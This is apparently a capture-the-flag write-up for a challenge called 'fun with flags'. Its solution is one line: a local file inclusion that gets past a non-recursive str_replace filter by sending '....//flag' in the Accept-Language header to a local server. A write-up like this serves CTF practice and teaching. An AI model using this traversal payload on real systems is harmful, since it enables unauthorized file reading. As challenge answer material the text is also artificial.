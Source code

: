 # Description
Welcome to fun with flags.

# Solution
LFI via str_replace bypass (not executed) recursively
curl -i -s -k -H 'Accept-Language: ....//flag' http://127.0.0.1:1333/

